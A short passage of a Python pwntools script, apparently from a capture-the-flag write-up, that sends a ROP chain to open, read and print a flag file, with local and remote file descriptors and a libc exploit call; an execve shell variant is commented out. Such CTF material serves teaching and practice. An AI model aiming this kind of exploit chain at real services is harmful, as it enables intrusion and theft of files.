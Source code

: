 ```python
    r.raw(2) #  r13-15
    r.raw(3) #  r13-15
    r.open(flag_addr, 0)
    if args.LOCAL: # exerimentally chosen FDs of the open flag file
        r.read(3, heap, 0xff)
    else:
        r.read(6, heap, 0xff)
    r.write(1, heap, 0xff)
    io.sendline(r.chain())

    dat = io.recv().replace(b"\x00", b"").decode()
    if len(dat) > 0:
        print(dat)

#  do_execve_shell()
do_libc_exploit()
```
